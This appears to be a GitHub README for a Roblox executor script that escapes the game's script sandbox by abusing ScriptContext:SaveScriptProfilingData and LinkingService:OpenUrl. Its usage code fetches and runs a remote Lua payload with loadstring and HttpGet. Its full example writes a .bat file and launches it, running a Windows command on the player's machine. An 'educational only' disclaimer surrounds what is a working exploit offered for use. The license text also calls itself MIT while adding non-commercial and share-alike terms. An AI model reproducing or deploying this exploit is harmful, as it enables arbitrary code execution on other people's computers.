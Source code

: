 # Education and Vulnerability Fix Purposes Only!

This repository is created for **educational purposes** and to help developers fix vulnerabilities in their code. The tools and scripts provided here are intended for use in **secure environments** only.

Currently, this is made to bypass **ENV** that are protected from vulnerabilities like `game:GetService("ScriptContext"):SaveScriptProfilingData` and `game:GetService("LinkingService"):OpenUrl`.

# Usage

To use this script, simply execute the following code in your Roblox executor:

```Lua
local bypassed_env = loadstring(game:HttpGet("https://raw.githubusercontent.com/dimbox-idk/env_escape/main/escape.lua"))()
```

Full example:
```Lua
local bypassed_env, why = loadstring(game:HttpGet("https://raw.githubusercontent.com/dimbox-idk/env_escape/main/escape.lua"))()

if bypassed_env ~= "Failed" and bypassed_env ~= "UnSupported" then
	local L, S = bypassed_env.game:GetService("LinkingService"), bypassed_env.game:GetService("ScriptContext")
	L:OpenUrl(S:SaveScriptProfilingData([[START C:\WINDOWS\system32\notepad.exe]], "lol.bat"))
elseif why ~= nil then
	print(why)
else
    print(bypassed_env)
end
```

## Disclaimer

By using this code, you are fully responsible for your actions. The author does not take any responsibility for any misuse or consequences resulting from the use of this code.

This project is **not** intended for malicious activities. It is solely designed to **educate** and **assist in fixing vulnerabilities** in a safe, responsible, and ethical manner.

Please ensure that you are in full compliance with all applicable laws and guidelines in your jurisdiction before using any code from this repository.

# License

This project is licensed under the **MIT License** with the following additional restriction:

## Terms:

- **Attribution**: You must give appropriate credit to the original author(s), provide a link to the license, and indicate if changes were made. You may do this in any reasonable manner, but not in any way that suggests the author(s) endorse you or your use.
- **Non-Commercial**: You may not use the material for commercial purposes. **Please do not sell the code or use it to create products or services that are sold.**
- **ShareAlike**: If you modify or build upon the work, you must distribute your contributions under the same license.

For more details, see the full [MIT License](https://opensource.org/licenses/MIT).
